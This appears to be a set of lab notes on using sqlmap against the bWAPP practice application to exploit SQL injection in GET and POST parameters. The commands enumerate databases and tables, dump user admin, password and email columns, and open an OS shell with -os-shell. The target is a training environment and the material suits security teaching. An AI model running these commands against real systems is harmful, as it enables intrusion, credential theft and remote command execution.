# SQL Injection

## GET Request

### Search



-u=URL<br>
--cookie=COOKIE_FROM_BURP_SUITE<br>
-p=TARGET_PARAMETER
```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=batman&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31; security_level=0" -p title
```



SQL syntax error means that it is vulnerable to SQLi


--dbs=GET_DATABASES
```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=batman&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31; security_level=0" -p title --dbs
```



-D=DATABASE<br>
--tables=GET_TABLES
```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=batman&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31; security_level=0" -p title --dbs -D bWAPP --tables
```


-T=TABLE<br>
--columns=GET_TABLE_COLUMNS
```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=batman&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns
```



-C=COLUMNS<br>
--dump=SHOW_DATA
```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=batman&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump
```



### Select



```
sqlmap -u "http://demo.ine.local/sqli_2.php?movie=10&action=go" -p movie --cookie="PHPSESSID=v0auu4dm3tt1rt46kj1ftigjj3; security_level=0"
```



SQL syntax error means that it is vulnerable to SQLi


```
sqlmap -u "http://demo.ine.local/sqli_2.php?movie=10&action=go" -p movie --cookie="PHPSESSID=v0auu4dm3tt1rt46kj1ftigjj3; security_level=0" --dbs
```



```
sqlmap -u "http://demo.ine.local/sqli_2.php?movie=10&action=go" -p movie --cookie="PHPSESSID=v0auu4dm3tt1rt46kj1ftigjj3; security_level=0" --dbs -D bWAPP --tables
```



```
sqlmap -u "http://demo.ine.local/sqli_2.php?movie=10&action=go" -p movie --cookie="PHPSESSID=v0auu4dm3tt1rt46kj1ftigjj3; security_level=0" --dbs -D bWAPP --tables -T users --columns
```



```
sqlmap -u "http://demo.ine.local/sqli_2.php?movie=10&action=go" -p movie --cookie="PHPSESSID=v0auu4dm3tt1rt46kj1ftigjj3; security_level=0" --dbs -D bWAPP --tables -T users -C admin,email,password --dump
```



## POST Request

### Search

Save POST request to file


```
sqlmap -r request -p title
```


SQL syntax error means that it is vulnerable to SQLi


Get a shell using SQLMap<br>
```
sqlmap -r request -p title -os-shell
```


### Select
Save POST request to file


-r=FILE_NAME
```
sqlmap -r request -p title
```


SQL syntax error means that it is vulnerable to SQLi


Get a shell using SQLMap<br>
--os-shell=GET_SHELL
```
sqlmap -r request -p title -os-shell
```


